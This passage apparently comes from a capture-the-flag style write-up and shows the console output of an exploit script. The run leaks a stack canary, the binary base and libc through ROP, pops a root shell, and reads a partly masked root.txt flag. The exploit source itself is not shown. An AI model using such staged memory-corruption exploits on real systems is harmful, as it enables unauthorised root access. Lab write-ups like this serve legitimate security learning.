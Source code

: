 Let us run the script.

```python
root@darkness:~# python3 exploit.py


  _____         _                                      _____  _            _  _ 
 |_   _|       | |                                    / ____|| |          | || |
   | |   _ __  | |_  ___  _ __   ___   ___   ______  | (___  | |__    ___ | || |
   | |  | '_ \ | __|/ _ \| '_ \ / __| / _ \ |______|  \___ \ | '_ \  / _ \| || |
  _| |_ | | | || |_|  __/| | | |\__ \|  __/           ____) || | | ||  __/| || |
 |_____||_| |_| \__|\___||_| |_||___/ \___|          |_____/ |_| |_| \___||_||_|
  ____            _____  _             ___           __          ____           
 |  _ \          / ____|| |           / _ \         / /         / __ \          
 | |_) | _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___     
 |  _ < | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|    
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \    
 |____/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/    
          __/ |                                                                 
         |___/                                                                  

[*] Stage 1 - Leaking addresses from stack
[+] Leaked canary: 0x623053f4db839400
[+] Got binary base: 0x56513c5af000
[*] Stage 2 - Leaking libc using ROP
[+] Leaked libc: 0x7f7bc109e000
[*] Stage 3 - Using ropchain to get shell
[+] Got shell as uid=0(root) gid=0(root) groups=0(root)!
[*] Switching to interactive mode
$ ls /root
root.txt
script.sh
$ cat /root/root.txt
83b0f***************************
```

We successfully get a shell as root and can read root.txt.
